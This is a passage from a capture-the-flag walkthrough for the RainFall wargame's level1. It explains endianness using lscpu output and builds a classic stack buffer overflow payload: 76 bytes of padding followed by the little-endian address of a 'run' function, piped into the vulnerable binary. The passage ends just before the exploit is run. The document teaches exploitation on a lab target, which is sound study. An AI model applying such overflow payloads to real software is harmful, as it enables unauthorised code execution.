 7) **Understanding what is `little-endian` and `big-endian`** : In computing, **endianess** is the order or sequence of bytes of a word of digital data in computer memory. Endianness is primarily expressed as **big-endian** (BE) or **little-endian** (LE). A big-endian system stores the most significant byte of a word at the smallest memory address and the least significant byte at the largest. A little-endian system, in contrast, stores the least significant byte at the smallest address.

Exemple : `0x12345678` in big-endian is `12 34 56 78` and in little-endian is `78 56 34 12`.

- Which endianess is used in our system ? We can use the command `lscpu` to know it :

```sh
level1@RainFall:~$ lscpu
Architecture:          i686
CPU op-mode(s):        32-bit, 64-bit
Byte Order:            Little Endian
CPU(s):                4
On-line CPU(s) list:   0-3
Thread(s) per core:    1
Core(s) per socket:    4
Socket(s):             1
Vendor ID:             AuthenticAMD
CPU family:            15
Model:                 107
Stepping:              1
CPU MHz:               999.999
BogoMIPS:              1897.33
Virtualization:        AMD-V
L1d cache:             64K
L1i cache:             64K
L2 cache:              512K
L3 cache:              16384K
level1@RainFall:~$
```

- It's a `Little Endian` system.

8) **What is a payload** : A payload is a piece of code that is executed when a vulnerability is exploited. In this case, the payload will be the address of the `run` function followed by the padding and the output is returned to the standard output.

9) **Let's construct the payload** (in Python for my case because... Because I want it, it's my walkthrough, you can use others languages) :

```sh
python -c 'print "A" * 76 + "\x44\x84\x04\x08"'
```

- `python -c` : execute the Python code in the command line.
- `print` : print the output.
- `"A" * 76` : print the character `A` 76 times.
- `+` : concatenate the two strings.
- `"\x44\x84\x04\x08"` : the address of the `run` function in little-endian.
- `| ./level1` : pipe the output to the `level1` program, we add it to execute the payload.

10) **Let's exploit it** :
